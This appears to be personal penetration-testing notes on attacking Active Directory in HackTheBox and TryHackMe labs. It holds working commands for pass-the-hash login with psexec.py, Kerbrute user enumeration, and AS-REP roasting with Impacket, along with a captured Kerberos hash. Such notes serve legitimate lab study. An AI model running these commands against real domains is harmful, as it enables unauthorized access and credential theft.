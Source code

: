 # Exploiting AD

{% hint style="info" %}
nice cheatsheet [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
{% endhint %}



TRy an log in with a hash password for user administrator

psexec.py administrator@dead:beef::b885:d62a:d679:573f -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe -port 445

## Validate users against AD

Kerbrute is a tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication

First you need to add the host under /etc/hosts

\-t 100 = to increase the number of thread to 100

```
echo "10.10.174.211 spookysec.local" | sudo tee -a /etc/hosts
~/tools/kerbrute userenum -d spookysec.local --dc spookysec.local  users -t 100
```

\~/tools/kerbrute userenum -d htb.local --dc apt.htb users -t 100

```
# cat /etc/hosts 127.0.0.1 localhost 127.0.1.1 kali
dead:beef::b885:d62a:d679:573f apt.htb htb.local
```

## Abusing Kerberos

### **ASREPRoasting**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Retrieving Kerberos Tickets**

[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```
/home/kali/impacket/build/scripts-3.9/GetNPUsers.py spookysec.local/ -no-pass -usersfile valid_users 

for user in $(cat forest_users); do GetNPUsers.py -no-pass -dc-ip 10.129.146.146 htb/${user} |  grep -v Impacket; done
[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:539f1ac4ce220e575438060bd3699a29$c1a1596aef210a178e49eb968451a3c49f65f5dc024e5786706444b2fdeb3d60f0dae4b8ae4cb2cfb2c1cbd16e71f9f58ab71f1dc3502abad2d7757807461078048414d8dc500e04fa07e1dd1d60282e422f4fd9a03c5e66616ca46f8e3be0271165cb36871052af7a5bfd462c0d672a74b387b4674af980ad6509f1779c5860f02806f3a437d6256fe2fd9b3da60cf61471638b9eede87aba528c5a4df1907cf1b9e2e38ca61b4400c7526909772275283830ecb6117cda802ed788c1c4f7d475aae972aa544bcbeb3c80e6267afeb123067249d2fd944cb38d823d5ab10d11
```
